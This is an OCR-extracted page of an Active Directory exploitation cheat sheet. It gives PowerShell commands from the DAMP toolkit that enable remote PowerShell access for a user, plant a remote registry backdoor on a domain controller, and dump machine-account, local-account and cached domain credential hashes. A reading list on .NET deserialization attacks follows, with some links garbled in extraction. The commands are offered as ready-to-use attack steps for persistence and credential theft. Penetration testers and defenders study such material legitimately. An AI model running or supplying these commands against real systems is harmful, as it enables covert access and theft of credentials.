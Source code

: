 - PSREMOTE
    - On local machine for joe

Set-RemotePSRemoting -UserName joe -Verbose

- On remote machine for joe without credentials

Set-RemotePSRemoting -UserName joe -ComputerName DC01 -Verbose

- On remote machine, remove the permissions

Set-RemotePSRemoting -UserName joe -ComputerName DC01 -Remove

- REMOTE REGISTRY
    - Using DAMP, with admin privs on remote machine

Add-RemoteRegBackdoor -ComputerName DC01 -Trustee jack -Verbose

- As jack, retrieve machine account hash

Get-RemoteMachineAccountHash -ComputerName DC01 -Verbose

- Retrieve local account hash

Get-RemoteLocalAccountHash -ComputerName DC01 -Verbose

- Retrieve domain cached credentials Get-RemoteCachedCredential -ComputerName DC01 -Verbose

[https://github.com/Integration-IT/Active-Directory-Exploitation-CheatSheet/tree/master/H%20-%20Persistence](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/H%20-%20Persistence)

# Payload .NET

### Additional Reading

- [Attacking .NET serialization](https://speakerdeck.com/pwntester/attacking-net-serialization)
- [Friday the 13th: JSON Attacks - Slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
- [Friday the 13th: JSON Attacks - Whitepaper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
- [Friday the 13th: JSON Attacks - Video(demos)](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
- [Are you my Type? - Slides](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
- [Are you my Type? - Whitepaper](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
- [Exploiting .NET Managed DCOM](https://googleprojectzero.blogspot.com.es/2017/04/exploiting-net-managed-dcom.html)
- [Finding and Exploiting .NET Remoting over HTTP using Deserialisation](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/march/finding-and-exploiting-.net-remoting-over-http-using-deserialisation/) **ysoserial.net references in the wild**

**Research:**

- [https://www.nccgroup.trust/uk/about-us/newsroom-andevents/blogs/2018/december/beware-of-deserialisation-in-.net-methods-and-classescode-execution-via-paste/](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/december/beware-of-deserialisation-in-.net-methods-and-classes-code-execution-via-paste/)
- [https://www.nccgroup.trust/uk/about-us/newsroom-andevents/blogs/2019/march/finding-and-exploiting-.net-remoting-over-http-usingdeserialisation/](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/march/finding-and-exploiting-.net-remoting-over-http-using-deserialisation/)
- [https://www.nccgroup.trust/uk/about-us/newsroom-andevents/blogs/2018/august/aspnet-resource-files-resx-and-deserialisation-issues/](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/august/aspnet-resource-files-resx-and-deserialisation-issues/) [https://www.nccgroup.trust/uk/our-research/use-of-deserialisation-in-.netframework-methods-and-classes/?research=Whitepapers](https://www.nccgroup.trust/uk/our-research/use-of-deserialisation-in-.net-framework-methods-and-classes/?research=Whitepapers)
